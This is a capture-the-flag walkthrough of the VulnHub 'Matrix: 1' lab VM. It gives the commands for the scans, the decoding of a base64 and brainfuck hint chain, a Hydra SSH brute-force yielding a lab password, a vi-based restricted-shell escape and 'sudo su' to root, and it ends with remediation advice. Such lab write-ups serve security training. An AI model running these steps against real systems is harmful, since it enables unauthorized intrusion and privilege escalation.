




# Matrix: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.18 (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Root Flag** | /root/flag.txt |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/matrix-1,259/) |

## Attack Summary

nmap → port 31337 (base64 hint → `Cypher.matrix` file → brainfuck decode → partial password) → crunch wordlist → Hydra SSH brute → `guest:k1ll0r7n` → rbash escape via `vi` → `sudo su` → root

## Methodology

1. Network discovery
2. Port scan (3 ports: 22, 80, 31337)
3. Decode hint chain: base64 → brainfuck → password fragment
4. Generate wordlist with crunch + Hydra SSH brute
5. rbash escape via `vi`
6. `sudo su` to root

---

## Step 1: Network Discovery

```bash
netdiscover
```

Target: 192.168.1.18

---

## Step 2: Port Scan

```bash
nmap -sV -sC -p- 192.168.1.18
```

Open: 22 (SSH), 80 (HTTP, nothing useful), 31337 (HTTP).


---

## Step 3: Port 31337 — Decode the Hint Chain

Browse `http://192.168.1.18:31337/` and view source. A base64 string is present.

```bash
# Decode base64 → reveals hint pointing to "Cypher.matrix"
echo "<base64_string>" | base64 -d
```

Download and read the file:

```bash
curl http://192.168.1.18:31337/Cypher.matrix
```

Contents are **brainfuck** encoded. Decode online or with an interpreter → reveals a partial password: `k1ll0r` and a hint about the missing character.





---

## Step 4: Build Wordlist and SSH Brute-Force

```bash
crunch 8 8 -t k1ll0r%@ -o dict.txt
hydra -l guest -P dict.txt 192.168.1.18 ssh
```

Recovered: `guest` / `k1ll0r7n`

---

## Step 5: SSH Login — rbash Restricted Shell

```bash
ssh guest@192.168.1.18
# Password: k1ll0r7n
ls
echo /home/guest/prog/*
echo $SHELL
# PATH is /home/guest/prog — only a few binaries available
```

Available binary: `vi`



---

## Step 6: rbash Escape via vi

```bash
vi
```

Inside vi:

```
:!/bin/bash
```

Fix PATH and escalate:

```bash
export PATH=/usr/bin:/bin:$PATH
export SHELL=/bin/bash
sudo -l
# (may show sudo su allowed with guest's password)
sudo su
# or
export PATH=/bin:$PATH
sudo su
```

---

## Step 7: Root Flag

```bash
cd /root
ls
cat flag.txt
```



---

## Lessons Learned

1. **Obscure ports** (31337) often hide the critical foothold — always scan all ports with `-p-`
2. **Brainfuck / Base64 hint chains** are common in beginner-intermediate VMs — recognise encoded strings quickly
3. **rbash escapes via `vi`** are trivial (`!/bin/bash`) — never allow `vi` inside a restricted shell
4. **Weak SSH passwords** reconstructable from hints — use SSH keys and disable password auth

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| Hints in page source / files | Remove all cleartext hints from production systems |
| SSH password brute-forceable | Use key-based auth; install fail2ban |
| vi available in rbash | Remove or restrict editor binaries in restricted environments |
| sudo su without password | Require full authentication for privilege escalation |
